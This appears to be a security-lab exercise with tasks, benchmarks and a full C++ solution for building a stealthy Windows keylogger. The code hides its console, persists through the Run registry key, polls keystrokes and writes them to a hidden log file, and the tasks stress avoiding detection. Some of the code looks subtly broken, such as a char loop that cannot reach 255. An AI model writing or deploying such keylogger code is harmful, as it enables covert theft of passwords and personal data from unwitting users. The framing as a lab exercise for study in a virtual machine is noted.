 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file (.exe) to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    
    using namespace std;
    
    int Save(int _key, char *file);
    
    void AddToStartup() {
        char filePath[MAX_PATH];
        GetModuleFileName(NULL, filePath, MAX_PATH);
        HKEY hKey;
        RegOpenKey(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
        RegSetValueEx(hKey, "MyKeylogger", 0, REG_SZ, (BYTE*)filePath, strlen(filePath) + 1);
        RegCloseKey(hKey);
    }
    
    void HideLogFile() {
        SetFileAttributes("log.txt", FILE_ATTRIBUTE_HIDDEN);
    }
    
    int main() {
        FreeConsole();
        AddToStartup();
        HideLogFile();
    
        char i;
        while (true) {
            Sleep(10);
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, "log.txt");
                }
            }
        }
        return 0;
    }
    
    int Save(int _key, char *file) {
        FILE *OUTPUT_FILE;
        OUTPUT_FILE = fopen(file, "a+");
        switch (_key) {
            case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]"); break;
            case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]"); break;
            case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]"); break;
            case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]"); break;
            case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]"); break;
            case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]"); break;
            case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]"); break;
            case VK_CONTROL: fprintf(OUTPUT_FILE, "[CTRL]"); break;
            case VK_MENU: fprintf(OUTPUT_FILE, "[ALT]"); break;
            case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS LOCK]"); break;
            case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]"); break;
        }
        fprintf(OUTPUT_FILE, "%s", &_key);
        fclose(OUTPUT_FILE);
        return 0;
    }
   ```
